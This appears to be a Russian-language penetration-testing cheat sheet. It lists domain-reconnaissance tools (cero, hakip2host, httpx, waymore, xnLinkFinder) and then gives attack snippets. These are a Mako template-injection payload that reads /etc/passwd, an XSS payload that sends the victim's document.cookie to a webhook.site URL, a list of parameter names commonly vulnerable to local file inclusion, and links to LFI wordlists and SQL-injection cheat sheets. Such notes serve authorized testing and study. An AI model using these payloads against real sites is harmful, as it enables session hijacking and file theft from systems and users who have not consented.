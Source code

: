 # Разведка доменных имен

https://github.com/glebarez/cero

Cero подключается к удалённым хостам и считывает доменные имена из сертификатов, предоставленных во время TLS-рукопожатия.
Сервер не ограничивается только HTTPS и может извлекать сертификаты из любого протокола, работающего через TLS (например, SMTPS) — просто укажите нужные порты для подключения.
Cero позволяет гибко указывать цели, включая доменные имена, IP-адреса и диапазоны CIDR, с полной поддержкой IPv6.

https://github.com/hakluke/hakip2host

hakip2host принимает список IP-адресов через stdin, а затем выполняет серию проверок для возврата связанных доменных имен.

- DNS PTR-поиски
- Альтернативные имена субъектов (SAN) в SSL-сертификатах
- Общие имена (CN) в SSL-сертификатах

https://github.com/projectdiscovery/httpx

httpx— это быстрый и многоцелевой HTTP-инструментарий, позволяющий запускать несколько тестов с помощью библиотеки retryablehttp . Он разработан для обеспечения надёжности результатов при увеличении числа потоков.

https://github.com/xnl-h4ck3r/waymore

Идея waymore заключается в том, чтобы найти еще больше ссылок с помощью Wayback Machine, чем с помощью других существующих инструментов.

👉 Самое большое отличие waymore от других инструментов заключается в том, что он также может загружать архивные ответы для URL-адресов на wayback machine, чтобы вы могли затем искать в них еще больше ссылок, комментариев разработчиков, дополнительных параметров и т. д. и т. п. 👉 Кроме того, другие инструменты в настоящее время не справляются с ограничением скорости, которое сейчас устанавливают источники, и часто просто останавливаются с неполными результатами и не сообщают вам об этом.

https://github.com/xnl-h4ck3r/xnLinkFinder

Это инструмент, используемый для обнаружения конечных точек (и потенциальных параметров) заданной цели. Он может найти их следующим образом:

сканирование цели (передача домена/URL)
сканирование нескольких целей (передача файла доменов/URL-адресов)
поиск файлов в заданном каталоге (передать имя каталога)
поиск по содержимому одного файла
получить их из проекта Burp (передать расположение XML-файла Burp)
получить их из проекта ZAP (передать местоположение файла сообщений ZAP ASCII)
получить их из проекта Caido (передать расположение файла CSV экспорта Caido)
обработка каталога результатов waymore (поиск архивных файлов ответов waymore -mode R, а также запрос URL-адресов waymore.txtи исходных URL-адресов waymore_index.txt- см. waymore README.md )
Скрипт на Python основан на возможностях поиска ссылок моего расширения Burp GAP . В качестве отправной точки я взял замечательный инструмент LinkFinder от Gerben Javado и использовал регулярное выражение для поиска ссылок, но с дополнительными улучшениями, позволяющими находить ещё больше ссылок.

# SSTI (Server-Side Template Injection) в Python

##  Mako Templates
### Проверка уязвимости
${7*7}  # → 49

### Чтение файла
<% import os %>${os.popen('cat /etc/passwd').read()}

# XSS Payload
[<]img src=x onerror="this.src='https://webhook.site/b8ce3f5c-707d-406f-a8df-0dd7928bca42?c='+document.cookie;"[>]

# LFI 
## Top 25 Local File Inclusion (LFI) Parameters

?cat={payload}

?dir={payload}

?action={payload}

?board={payload}

?date={payload}

?detail={payload}

?file={payload}

?download={payload}

?path={payload}

?folder={payload}

?prefix={payload}

?include={payload}

?page={payload}

?inc={payload}

?locate={payload}

?show={payload}

?doc={payload}

?site={payload}

?type={payload}

?view={payload}

?content={payload}

?document={payload}

?layout={payload}

?mod={payload}

?conf={payload}

##  LFI Wordlists
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI

https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
# SQLi
https://www.sqlinjection.net/stacked-queries/
https://pentestmonkey.net/category/cheat-sheet/sql-injection



